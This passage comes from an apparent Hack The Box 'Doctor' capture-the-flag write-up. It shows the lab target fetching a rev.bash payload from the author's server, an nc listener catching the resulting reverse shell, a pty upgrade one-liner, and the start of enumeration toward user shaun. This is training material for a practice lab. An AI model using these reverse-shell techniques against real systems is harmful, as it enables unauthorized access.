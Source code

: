 ![rce](/assets/img/Posts/Doctor/rce.png)

On submitting the Post, we can see a hit on python server:

```shell
10.10.10.209 - - [14/Nov/2020 20:16:38] "GET /rev.bash HTTP/1.1" 200 -
```

And get a call back on our nc listener:

```shell
cfx:  ~/Documents/htb/doctor
→ nc -lvnp 8021
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::8021
Ncat: Listening on 0.0.0.0:8021
Ncat: Connection from 10.10.10.209.
Ncat: Connection from 10.10.10.209:55492.
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(web) gid=1001(web) groups=1001(web),4(adm)
$ python3 -c "import pty;pty.spawn('/bin/bash')"
web@doctor:~$
```

## Elevating Priv: web -> shaun

### Enumeration

Inside home directory we discover another user named shaun:

```shell
web@doctor:/home$ ls -la
ls -la
total 16
drwxr-xr-x  4 root  root  4096 Sep 19 16:54 .
drwxr-xr-x 20 root  root  4096 Sep 15 12:51 ..
drwxr-xr-x  6 shaun shaun 4096 Sep 15 12:51 shaun
drwxr-xr-x  7 web   web   4096 Feb 14 16:47 web
```
